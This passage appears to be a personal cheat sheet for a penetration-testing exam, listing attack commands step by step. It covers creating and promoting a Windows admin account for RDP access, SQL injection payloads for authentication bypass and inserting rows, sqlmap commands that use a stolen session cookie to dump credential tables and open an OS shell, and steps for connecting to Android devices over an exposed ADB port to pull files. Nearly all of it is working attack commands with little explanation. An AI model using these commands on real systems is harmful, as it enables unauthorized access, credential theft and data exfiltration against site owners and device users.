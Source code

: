 		       | net user Test      (Check a user)
		       | net localgroup Administrators Test/Add   (To convert the test account to admin)
		       | net user Test      (Once again check to see if it has become administrator)
Now you can do a RDP connection with the given ip and the Test account which you created.
```
#  SQL Injections
```
1. Auth Bypass-  hi'OR 1=1 --
2. Insert new details if sql injection found in login page in username tab enter- blah';insert into login values('john','apple123');--
3. Exploit a Blind SQL Injection- In the website profile, do inspect element and in the console tab write -  document.cookie
Then copy the cookie value that was presented after this command. Then go to terminal and type this command,
sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" --dbs
4. Command to check tables of database retrieved-  sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" -D databasename --tables
5. Select the table you want to dump-  sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" -D databasename -T Table_Name --dump   (Get username and password)
6. For OS shell this is the command-   sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" --os-shell
6.1 In the shell type-   TASKLIST  (to view the tasks)
6.2 Use systeminfo for windows to get all os version
6.3 Use uname -a for linux to get os version

7. SQLi:
login>[Q]>console[document.cookie=copy the value]
sqlmap -u "website" --cookie="value" --dbs
sqlmap -u "website" --cookie="value" -D databse --tables
sqlmap -u "website" --cookie="value" -D database --dump -T tablename

SQL:
jsql
[url with id] & attack
sqlmap
sqlmap -u "website" --cookie="value" --dbs
```
# Android
```
nmap ip/24 -Pn
..........
1. nmap ip -sV -p 5555    (Scan for adb port)
2. adb connect IP:5555    (Connect adb with parrot)
3. adb shell              (Access mobile device on parrot)
4. pwd --> ls --> cd sdcard --> ls --> cat secret.txt (If nothing is there then go to Downloads folder using: cd downloads, may need to search others also)
-------------------------------------------
1. nmap -p 5555 ip  (Scan for adb port)
2. adb connect ip:5555  (Connect adb with parrot)
3. adb shell  (Access mobile device on parrot)
4. ls  (Check all file)
5. cd sdcard/
6. ls (To find the folder and file)
7. pwd  (Check file path)
8. exit
10. (Sudo permission)
11. adb pull /file_path_in_mobile
12. check the folder and go to the folder
13. apt install ent (if required)
14 . ent  exicuteable_file ( Check all file entrophy value and find the highest one)
15. sha384sum exicuteable_file (select the required entropy value file)